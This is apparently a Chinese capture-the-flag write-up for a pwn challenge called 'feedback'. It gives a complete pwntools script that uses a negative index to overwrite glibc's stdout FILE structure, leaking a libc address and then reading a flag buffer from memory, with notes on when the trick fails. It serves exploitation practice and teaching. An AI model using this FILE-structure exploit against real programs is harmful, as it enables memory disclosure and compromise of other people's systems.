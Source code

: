 # feedback

打io_file的stdout

https://n0va-scy.github.io/2019/09/21/IO_FILE/ ：stdout结构

https://pzhxbz.cn/?p=139 和 https://changochen.github.io/2018-11-26-bctf-2018.html ：利用stdout泄露libc地址。不过这个地址是随机的，可以用来算与flag buf的偏移

https://xz.aliyun.com/t/5853#toc-5 ：如何使用stdout进行任意地址读（地址要已知，刚才算出来的）
```py
from pwn import *
p=remote("localhost",53053)
def feedback(index,payload):
    p.sendlineafter("write?",str(index))
    if len(payload)<0x48:
        p.sendlineafter("feedback.",payload)
    else:
        p.sendlineafter("feedback.",payload[:-1])
payload=p64(0xfbad3c80)+p64(0)*3+p8(0) #_flags+_IO_read_ptr+_IO_read_end+_IO_read_base覆盖_IO_write_base的最后一个字节。目标是改小_IO_write_base
#覆盖后_IO_write_base到_IO_write_ptr中间的内存就会被泄露出来
offset=-8
feedback(offset,payload)
flag_buf=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))+19840 #调试得到的偏移
flags=0xfbad1800
flags&=~8
flags|=0x800
flags|=0x8000
payload=p64(flags)+p64(0)*3+p64(flag_buf)+p64(flag_buf+100) #和上面一样的道理，只不过这次直接指定地址即可
feedback(offset,payload)
print(p.recvall(timeout=1))
```
当地址未知时，覆盖_IO_write_base的最后一个字节将其改小就能泄露libc地址（非常常用的技巧）。一般都能成功，只有一种情况例外：_IO_write_base最后一个字节本身就很小，比如是`0x3`。这时改成`\x00`也只能泄露0x3个字节（`_IO_write_ptr`默认和`_IO_write_base`一样）。如果很不幸这三个字节全是null就寄了